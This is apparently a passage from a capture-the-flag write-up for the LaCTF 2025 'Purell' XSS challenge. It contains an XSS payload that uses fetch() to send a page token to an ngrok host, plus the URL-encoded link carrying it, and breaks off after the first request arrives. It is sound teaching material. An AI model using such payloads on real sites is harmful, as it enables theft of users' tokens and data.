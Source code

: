 > 
> From this and the fact that there was an admin bot to which an `URL` could be reported, I understood it was an `XSS` challenge. I didn’t read much of the attached files since they contained almost the same information as the website. There were a total of `7` levels, and with each level, an additional layer of `sanitization` was applied to the input of the `textArea`. The first thing I noticed was that the goal wasn’t to steal the admin bot's cookies when it was directed to the page with the XSS. Instead, the goal was to steal a token contained within the page visited by the admin bot, as we can see from level zero: `purell-token{xss_guru_0}`. So, the first thing I did was start an ngrok server:
> 
> ```bash
>  ngrok 8080
> ```
> 
> to which the stolen token from the admin bot's requests would be sent. The first level had no sanitization, so I used a simple `XSS` payload:
> 
> ```html
> <script>fetch('https://c0b4-2-37-167-108.ngrok-free.app?flag=' + document.querySelector('.flag').innerText)</script>
> ```
>
> Once the payload was sent into the `textArea`, I extracted the generated page link:
> 
> ![Level 0 Payload](/images/LaCTF-2025/Purell/level0_payload.png "Level 0 Payload") 
>  ```
> https://purell.chall.lac.tf/level/start?html=%3Cscript%3Efetch%28%27https%3A%2F%2Fc0b4-2-37-167-108.ngrok-free.app%3Fflag%3D%27+%2B+document.querySelector%28%27.flag%27%29.innerText%29+%5C%3C%2Fscript%3E
>  ```
> 
> Containing the payload. As we can already see from ngrok, the first request has arrived:
> 